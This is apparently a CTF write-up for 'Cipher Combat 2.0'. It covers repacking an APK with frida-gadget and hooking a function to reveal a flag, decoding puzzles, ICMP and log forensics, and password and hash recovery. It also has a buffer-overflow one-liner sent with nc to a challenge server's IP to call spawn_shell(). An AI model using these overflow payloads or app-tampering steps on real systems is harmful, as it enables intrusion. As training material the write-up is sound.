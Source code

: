# Cipher Combat 2.0

Didn't manage to do much of the first run, because of timezone differences and forgetting that the CTF was ongoing, I managed to performed much better this time round. Hints could be way better (The free hints felt more useful than some 30-point hints), but I appreciate the sentiments of the admins and mods to get participants to try harder before releasing hints. You don't learn through spoonfeeding, you do through questioning assumptions, being resourceful (aka Googling), and learning more about the underlying protocol or binary. Nonetheless, here are my solutions:

## Category: Android Pentesting

### Name: Native or Naive

Artifact is an APK file for an app that decrypts the flag when pressing a button. However they do that in the background, not revealing it easily. A simple frida hook on the `Final_flag()` function of the `MainActivity` class will easily intercept and reveal the flag. As I don't have a spare rooted Android phone at the time of the CTF, I had to repack the APK with frida-gadget before installing it. Commands are:

```bash
$ apktool if Native-or-Naive.apk
$ apktool d -o Native-or-Naive Native-or-Naive.apk
$ cp libfrida-gadget.so Native-or-Naive/lib/arm64-v8a/libfrida-gadget.so
$ vi Native-or-Naive/smali/MainActivity.smali
$ vi Native-or-Naive/AndroidManifest.xml
```

Injected a System.LoadLibrary("frida-gadget") call into the bytecode of the app with:

```smali
const-string v0, "frida-gadget"
invoke-static {v0}, Ljava/lang/System;->loadLibrary(Ljava/lang/String;)V
```

Added the INTERNET permission in the manifest file:

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

Now I need to repack it:

```bash
$ apktool b -o Native-or-Naive.frida.apk Native-or-Naive

# Create a Keystore
$ keytool -genkey -v -keystore custom.keystore -alias mykeyaliasname -keyalg RSA -keysize 2048 -validity 10000

# Sign the APK
$ jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore custom.keystore -storepass <PASSWORD> Native-or-Naive.frida.apk mykeyaliasname

# Verify that the APK is signed correctly
$ jarsigner -verify Native-or-Naive.frida.apk

# zipalign the APK
$ zipalign 4 Native-or-Naive.frida.apk Native-or-Naive.final.apk

# Run frida in Gadget mode
$ frida -U Gadget
```

Afterwards, it's just a matter of launching the app and connecting to a frida instance for dynamic instrumentation. Here is the script used to hook onto the `Final_flag()` function:

```js
Java.perform(function() {
	var MainActivity = Java.use('com.example.native_or_naive.MainActivity')
	MainActivity.Final_flag.implementation = function() {
		var result = MainActivity.Final_flag.call(this)
		console.log(result)
		return result
	}
})
```

Flag: HE{Not_always_apk_Serctes_Are_in_java_files_or_maybe_they_are}

## Category: Cryptography

### spaces

Fairly straightforward challenge. After base64 decoding, you see a binary sequence of `space` and `notSpace`, kind of like `0` and `1` that computers understand. Afterwards, it's just a matter of wrangling it until you get the flag.

Here is the CyberChef Recipe:

```js
From_Base64('A-Za-z0-9+/=',true)
Find_/_Replace({'option':'Regex','string':'space'},'0',true,false,true,false)
Find_/_Replace({'option':'Regex','string':'notSpace'},'1',true,false,true,false)
Fork('\\n','\\n',false)
From_Base(2)
Find_/_Replace({'option':'Regex','string':'^1$'},'',true,false,true,false)
From_Charcode('Space',10)
Merge()
Remove_whitespace(true,true,true,true,true,false)
```

Flag: HE{april-f001s-d4y!!!}

## Category: Network Security

### EyeSeeeeeAmPeeeeeee

The challenge name reveals a very HUGE hint: we should look at ICMP traffic in the PCAP file. Similar to the `spaces` challenge, there is a binary sequence of PING request and replies. You know the drill.

```bash
$ tshark -r "test.pcapng" -Y "icmp" -T fields -e icmp.type | tr -d '[:space:]' | sed 's/8/1/g' | sed 's/\([01]\{8\}\)/\1 /g'
```

This will produce an output of `01001000 01000101 01111011 01010100 01110010 01111001 01101001 01101110 01100111 01011111 01110100 01101111 01011111 01000111 01100101 01110100 01011111 01001001 01000011 01001101 01010000 01011111 01101000 01110101 01101000 01111101 ` to which you can then convert back to ASCII.

Flag: HE{Trying_to_Get_ICMP_huh}

### Tiny Whiny Log Files

The flag is the combination of all the "Init: User: " lines joined together.

```bash
$ grep "Init: User: " logs.txt | cut -d' ' -f4 | xargs | tr -d '[:space:]'
```

Flag: HE{Im_way_to_lazy_to_solve}

## Category: PWN

### El Clasico of Pwning

A simple buffer overflow attack. Using GDB-Peda's `pattern create` and `pattern search`, we can get a segfault on `0x401195 <stack+51>: ret` instruction. Since what `ret` does is simply `pop rip; jmp rip`, we can find the offset to override the top of the stack, which is at offset `1352` with a buffer size of about `148` bytes.

All we need to do now is to make it jump to `spawn_shell()`, which is located at `0x401196`. Also, since we're living in the 21st century, let's do it the `python3` way instead of `python2`.

```bash
$ (python3 -c "import sys;sys.stdout.buffer.write(b'\x00' * 1352 + b'\x96\x11\x40\x00' + b'\n')"; cat -) | nc 18.136.123.24 8560
```

Flag: HE{Simple_BUffer_Overflow_attack}

## Category: Reversing

### locked

Using `strings`, we can see the password blatantly revealed in plaintext: `v3ry-str0ng-p4ss`.

Flag: HE{l0ck-h4s-b33n-unl0cked}

### Digest

Similar to `locked`, except this time the password is stored as a MD5 hash. Nonetheless, it's easy once you figure out the trick. Using GDB, set a breakpoint before the `strncmp()` function is executed, then view the stack with `x/4xw $rcx` and you'll get `0xc867a153      0x4f96dcd4      0xdd38787d      0x37d1e24c`. Since a MD5 hash is 32 bytes long, just simply fix the endianness to get `53a167c8d4dc964f7d7838dd4ce2d137` which is the hash of `iamalmighty9`.

Flag: HE{iamalmighty9}

### shifter2

Still not very strong at deciphering call graphs, but a hint from the previous Cipher Combat CTF helped in getting the answer. It's a dynamic bit-shifting challenge.

```python
enc = 'qeean,jVhZhhd_c'
flag = ''
for i in range(0xf):
    flag += chr(ord(enc[i]) + i + 2)
print(flag)
```

Flag: HE{shift3r_returns}